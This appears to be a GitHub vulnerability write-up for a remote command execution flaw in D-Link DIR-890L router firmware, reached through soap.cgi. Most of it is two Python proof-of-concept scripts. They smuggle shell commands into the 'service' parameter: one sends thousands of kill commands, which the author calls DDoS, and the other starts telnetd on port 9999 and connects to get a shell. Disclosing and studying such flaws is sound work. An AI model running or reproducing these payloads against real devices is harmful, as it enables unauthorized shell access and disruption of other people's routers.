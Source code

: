 # RCE of DIR-890l

## Version: 
DIR890LA1_FW120b01

## Test Environment: 
Ubunutu 22.02, FirmAE

## Analysis:
Because of loose filter in `soap.cgi` causes this RCE

## Tips:
I don't have an actual firmware, so I used FirmAE. However, it has some bug causing `system()` can't execve most of command. So in my environment this RCE can only execute some commands like `kill`, `sleep`...

## POC:
### In my environment(DDoS)
```python
from traceback import print_tb
import logging
import http.client
import imp
import logging
import http.client
import socket
from time import sleep
import os

def http_logging():
    http.client.HTTPConnection.debuglevel=1
    logging.basicConfig()
    logging.getLogger().setLevel(logging.DEBUG)
    requests_log=logging.getLogger("request.packages.urlib3")
    requests_log.setLevel(logging.DEBUG)
    requests_log=True


def httpSUB(server, port, shell_file):
    
    con = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    request = "POST /soap.cgi?service=" + str(shell_file) + " HTTP/1.0\n"
    request += "Host: " + str(server) + str(port) + "\n"
    request += "Timeout: Second-1800\n"
    request += "Accept-Encoding: gzip, deflate\n"
    request += "User-Agent: gupnp-universal-cp GUPnP/1.0.2 DLNADOC/1.50\n"
    request += "SOAPAction: 123#123\n"
    request += "Content-Type: text/xml\n"
    request += "Content-Length: 260\n"
    request += "SERVER_ID: 2\n\n"

    #print('[*] Sending Payload')
    con.connect((socket.gethostbyname(server),port))
    con.send(request.encode())
    #print("request: \n\n")
    print(request)
    print(con.recv(4000))

if __name__=="__main__":
    http_logging()
    i=5000
    while(i>0):
        httpSUB("192.168.0.1", 49152, ';kill {0};'.format(i))
        i=i-1
        if i%1000==0:
            print(i)

```

### Actual firmware(get shell)
```python
from traceback import print_tb
import logging
import http.client
import imp
import logging
import http.client
import socket
from time import sleep
import os

def http_logging():
    http.client.HTTPConnection.debuglevel=1
    logging.basicConfig()
    logging.getLogger().setLevel(logging.DEBUG)
    requests_log=logging.getLogger("request.packages.urlib3")
    requests_log.setLevel(logging.DEBUG)
    requests_log=True


def httpSUB(server, port, shell_file):
    
    con = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    request = "POST /soap.cgi?service=" + str(shell_file) + " HTTP/1.0\n"
    request += "Host: " + str(server) + str(port) + "\n"
    request += "Timeout: Second-1800\n"
    request += "Accept-Encoding: gzip, deflate\n"
    request += "User-Agent: gupnp-universal-cp GUPnP/1.0.2 DLNADOC/1.50\n"
    request += "SOAPAction: 123#123\n"
    request += "Content-Type: text/xml\n"
    request += "Content-Length: 260\n"
    request += "SERVER_ID: 2\n\n"

    #print('[*] Sending Payload')
    con.connect((socket.gethostbyname(server),port))
    con.send(request.encode())
    #print("request: \n\n")
    sleep(2)
    os.system('telnet ' + str(server) + ' 9999')

if __name__=="__main__":
    http_logging()
    httpSUB("192.168.0.1", 49152, ';telnetd -p 9999 &;;')
```

## Result:
<img src="./ddos.png" style="width:250px">
